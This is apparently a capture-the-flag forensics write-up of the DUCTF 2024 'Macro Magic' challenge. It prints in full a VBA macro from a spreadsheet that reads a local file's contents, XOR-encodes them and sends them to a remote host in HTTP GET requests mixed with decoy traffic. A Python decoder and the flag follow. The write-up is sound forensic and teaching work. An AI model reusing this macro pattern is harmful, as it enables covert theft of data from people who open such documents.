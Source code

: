 # Macro Magic
Solved by **warlocksmurf**\
Full writeup is available at https://warlocksmurf.github.io/posts/ductf2024/#macro-magic-forensics

## Question
We managed to pull this excel spreadsheet artifact from one of our Outpost machines. It’s got something sus happening under the hood. After opening we found and captured some suspicious traffic on our network. Can you find out what this traffic is and find the flag!

## Solution
We analysed the PCAP and XLSM files. From the XSLM file, there was a macro with the following text:
```
Attribute VB_Name = "Module1"

Public Function anotherThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    anotherThing = A
End Function

Public Function importantThing()
    Dim tempString As String
    Dim tempInteger As Integer
    Dim I As Integer
    Dim J As Integer
    For I = 1 To 5
        Cells(I, 2).Value = WorksheetFunction.RandBetween(0, 1000)
    Next I
    For I = 1 To 5
        For J = I + 1 To 5
            If Cells(J, 2).Value < Cells(I, 2).Value Then
                tempString = Cells(I, 1).Value
                Cells(I, 1).Value = Cells(J, 1).Value
                Cells(J, 1).Value = tempString
                tempInteger = Cells(I, 2).Value
                Cells(I, 2).Value = Cells(J, 2).Value
                Cells(J, 2).Value = tempInteger
            End If
        Next J
    Next I
End Function

Public Function totalyFine(A As String) As String
    Dim B As String
    B = Replace(A, " ", "-")
    totalyFine = B
End Function

Sub macro1()
    Dim Path As String
    Dim wb As Workbook
    Dim A As String
    Dim B As String
    Dim C As String
    Dim D As String
    Dim E As String
    Dim F As String
    Dim G As String
    Dim H As String
    Dim J As String
    Dim K As String
    Dim L As String
    Dim M As String
    Dim N As String
    Dim O As String
    Dim P As String
    Dim Q As String
    Dim R As String
    Dim S As String
    Dim T As String
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub

Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function

Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function

Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function

Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```

The explanations for each function:

- anotherThing() - This function basically just performs XOR on two strings.
- importantThing() - This function generates random numbers and sorts them.
- totalyFine() - This function modifies a string by replacing spaces with hyphens.
- superThing() - This function sends a GET request and returns the response.
- something() - This function converts each character of a string to its binary representation.
- forensics() - This function converts a string to its byte representation with spaces.

After analysed it further, the XOR key was `MonkeyMagic`. Using that, we decode the URLs that can be identified from the PCAP file.
```
def decode(encoded, key):
    decoded = ""
    key_len = len(key)
    for i in range(len(encoded)):
        decoded += chr(encoded[i] ^ ord(key[(i) % key_len]))
    return decoded

flag = [11, 3, 15, 12, 95, 89, 9, 52, 36, 61, 37, 54, 34, 90, 15, 86, 38, 26, 80, 19, 1, 60, 12, 38, 49, 9, 28, 38, 0, 81, 9, 2, 80, 52, 28, 19]
key = "MonkeyMagic"

decoded_message = decode(flag, key)
print(decoded_message)
```

### Flag
`DUCTF{M4d3_W1th_AI_by_M0nk3ys}`
